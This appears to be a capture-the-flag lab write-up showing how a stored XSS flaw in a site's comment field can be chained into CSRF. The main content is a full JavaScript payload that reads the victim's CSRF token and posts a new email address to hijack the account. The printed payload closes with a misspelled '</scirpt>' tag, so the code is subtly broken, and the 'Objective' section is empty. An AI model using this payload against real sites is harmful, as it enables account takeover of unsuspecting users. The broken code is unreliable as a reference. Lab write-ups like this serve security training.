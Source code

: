 # Exploiting XSS to perform CSRF
# Objective


# Solution
## Analysis
Logged user have possibility to change his email address.
|![](Images/image-95.png)|
|:--:| 
| */change-email request* |

Moreover, users on this website can post comments. This functionality is vulnerable to stored XSS.
![](Images/image-96.png)

## XSS Exploit
In order to perform CSRF JavaScript, enclosed in `<script>` tag, must read user’s `csrf` value and use it to create POST request to change his email on his behalf. JavaScript will be executed in user’s browser when user visits a page with malicious comment. Payload:
```js
<script>
window.addEventListener('DOMContentLoaded', function(){

// Read csrf value
var token = document.getElementsByName('csrf')[0].value;

// Prepare message body (payload)
var data = new FormData();
data.append('csrf', token)
data.append('email', 'newemail@email.com');

// Send Post request to change email
fetch('/my-account/change-email', {
method: 'POST',
mode: 'no-cors',
body: data});
});
</scirpt>
```

In this way attacker can take over someone’s account.

![](Images/image-97.png)